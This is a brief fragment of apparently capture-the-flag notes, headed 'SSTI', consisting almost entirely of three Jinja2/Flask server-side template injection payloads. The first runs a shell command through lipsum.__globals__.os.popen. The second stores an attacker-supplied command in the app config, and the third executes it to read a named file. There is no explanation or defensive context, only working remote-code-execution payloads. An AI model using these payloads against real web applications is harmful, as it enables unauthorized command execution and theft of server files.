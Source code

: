 ## SSTI:



> {{lipsum.__globals__.os.popen('ls').read()}}

> {{config.update(x=request.args[%27a%27])}}&a=cat%20truly_an_arbitrarily_named_file

> {{lipsum.__globals__.os.popen(config.x).read()}}
